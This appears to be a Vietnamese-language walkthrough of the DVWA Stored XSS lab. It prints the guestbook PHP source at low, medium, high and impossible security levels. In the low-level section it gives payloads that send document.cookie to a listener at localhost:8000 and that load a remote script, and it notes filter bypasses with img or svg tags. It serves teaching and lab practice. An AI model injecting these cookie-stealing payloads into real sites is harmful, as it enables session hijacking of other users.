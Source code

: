 ```yaml
---
template: overrides/blog.html
icon: material/plus-circle
title: XSS Stored
description: >
  
search:
  exclude: true
hide:
  - feedback

tags:
  - DVWA
  - XSS
  - XSS Stored
---
```


# __XSS Stored__

_Stored attacks are those where the injected script is permanently stored on the target servers, such as in a database, in a message forum, visitor log, comment field, etc. The victim then retrieves the malicious script from the server when it requests the stored information. Stored XSS is also sometimes referred to as Persistent or Type-II XSS._

---

## __Objective__

Redirect everyone to a web page of your choosing.

## __Security Level: Low__

Source code

```php title="vulnerabilities/xss_s/source/low.php"
<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = stripslashes( $message );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Sanitize name input
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
}

?> 
```

### __Analysis and exploition__

Ta sẽ tiêm payload ở challenge [XSS](/dvwa/xss-reflected) vào box name hoặc box message

> Payload: `<svg xmlns="http://www.w3.org/2000/svg" onload="document.location='http://localhost:8000/?abc='+document.cookie"/>`

Nhưng ta sẽ không thể tiêm đầy đủ payload trên vào cả 2 box được vì cơ bản từ phía database họ đã set độ dài giá trị của các biến `name`, `message`. Ta phải giới hạn lại độ dài của payload bằng việc lưu nó vào file nào đó (`a.js` chẳng hạn) và mở một kết nối local để chạy script.

> Payload: `<script src=http://localhost:8000/a.js></script>`

![](image.png)

---

## __Security Level: Medium__

Source code

```php title="vulnerabilities/xss_s/source/medium.php"
 <?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = strip_tags( addslashes( $message ) );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $message = htmlspecialchars( $message );

    // Sanitize name input
    $name = str_replace( '<script>', '', $name );
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
}

?>
```

### __Analysis__

Challenge này họ filter lại thẻ không cho đăng tải thẻ <script\> nhưng hiển nhiên ta có thể dùng thẻ <img\> hoặc <svg\>,... để bypass nó. Y hệt challenge [XSS Reflected](/dvwa/xss-reflected)

### __Exploition__


---

## __Security Level: High__

Source code

```php title="vulnerabilities/xss_s/source/high.php"
<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = strip_tags( addslashes( $message ) );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $message = htmlspecialchars( $message );

    // Sanitize name input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $name );
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
}

?> 
```

### __Analysis and exploition__

Ở mức độ này, họ filter y hệt challenge high của [XSS Reflected](/dvwa/xss-reflected/#security-level-high). Do đó ta cũng dùng chính payload cũ, vẫn có thể bypass và lấy được cookie use.

---

## __Security Level: Impossible__

Source code

```php title="vulnerabilities/xss_s/source/impossible.php"
<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = stripslashes( $message );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $message = htmlspecialchars( $message );

    // Sanitize name input
    $name = stripslashes( $name );
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $name = htmlspecialchars( $name );

    // Update database
    $data = $db->prepare( 'INSERT INTO guestbook ( comment, name ) VALUES ( :message, :name );' );
    $data->bindParam( ':message', $message, PDO::PARAM_STR );
    $data->bindParam( ':name', $name, PDO::PARAM_STR );
    $data->execute();
}

// Generate Anti-CSRF token
generateSessionToken();

?> 
```

### __Analysis__

Xem tại [/dvwa/xss-reflected/#security-level-impossible](/dvwa/xss-reflected/#security-level-impossible)

---

## __What we learned__

## __More Information__


- https://owasp.org/www-community/attacks/xss
- https://owasp.org/www-community/xss-filter-evasion-cheatsheet
- https://en.wikipedia.org/wiki/Cross-site_scripting
- http://www.cgisecurity.com/xss-faq.html
- http://www.scriptalert1.com/
